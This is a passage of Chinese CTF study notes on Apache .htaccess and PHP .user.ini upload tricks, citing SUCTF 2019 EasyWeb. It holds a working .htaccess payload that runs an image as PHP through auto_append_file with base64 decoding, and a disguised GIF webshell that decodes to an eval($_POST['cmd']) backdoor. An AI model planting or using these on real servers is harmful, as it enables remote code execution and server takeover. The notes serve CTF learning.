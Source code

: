     将某个固定的图片马直接解析成 PHP 文件。

2. 但是如果对图片马的内容进行敏感词监测，那么此时图片马就会失效，这时就要考虑编码。

3. 直接上新的 `.htacces` ：
    ```.htaccess
    #define width 1337
    #define height 1337 
    <FilesMatch "trojan.jpg">
    SetHandler application/x-httpd-php
    </FilesMatch>
    php_value auto_append_file "php://filter/convert.base64-decode/resource=图片马 URL"
    ```

    多加了一行，`php_value auto_append_file` 指定文件包含，这样将图片马中的内容进行 Base64 解码。
    所以可以直接传图片马：

    ```hex
    GIF89a66
    PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
    ```

    头部后面添加 `66` ，为了满足 Base64 4 位一解码，否则正文部分的编码不能正确解码。

4. 例题：[SUCTF 2019]EasyWeb

## 3. `.htaccess` 文件使用

1. 参考文档：

    > Y4tacker 大佬的总结文章：https://blog.csdn.net/solitudi/article/details/116666720
    > PHP 的配置文件 `.user.ini` 的配置选项：https://www.php.net/manual/zh/ini.list.php
    > Apache `httpd.conf` 的核心指令文档：https://httpd.apache.org/docs/current/mod/core.html

2. 主要的内容以 Y4tacker 大佬的总结文章为主，遇到具体类型题目的注意点时单独记录。

3. 有关 `.htaccess` 文件的语法，一方面参考 Apache `httpd.conf` 的范围选择（[Scope of Directives](https://httpd.apache.org/docs/current/configuring.html)）和其核心指令；另一方面就是 PHP 的 `ini` 设置。有关 `.user.ini` 和 `.htaccess` 的联系：

    > https://www.php.net/manual/zh/configuration.file.per-user.php：
    > PHP 支持基于每个目录的 INI 文件配置。此类文件 *仅* 被 CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。**如果你的 PHP 以模块化运行在 Apache 里，则用 .htaccess 文件有同样效果。**
    >
    > https://www.php.net/manual/zh/configuration.changes.php：当使用 PHP 作为 Apache 模块时，也可以用 Apache 的配置文件（例如 httpd.conf）和 .htaccess 文件中的指令来修改 PHP 的配置设定。需要有“AllowOverride Options”或“AllowOverride All”权限才可以。
    > 有几个 Apache 指令可以使用户在 Apache 配置文件内部修改 PHP 的配置。哪些指令属于 **`INI_ALL`**、**`INI_PERDIR`** 或 **`INI_SYSTEM`** 中的哪一个，请参考附录中的 [php.ini 配置选项列表](https://www.php.net/manual/zh/ini.list.php)。
    
    也就是说，`.htaccess` 和 `.user.ini` 都是可以使用的，如果过滤了 `.htaccess`，那么也可以试一试 `.user.ini`。

### 3.1 `.htaccess` 将自身当作 PHP 文件执行

1. Y4tacker 大佬的文章写明了 PoC。这里主要解释一下本人做题时的思考：
    当时在想为什么不能用 `<FilesMatch>` 来将 `.htaccess` 当成 PHP 来执行？Y4tacker 的 PoC 中，有两个关键的 PHP ini 参数：`auto_prepend_file` 和 `auto_append_file`。详见：
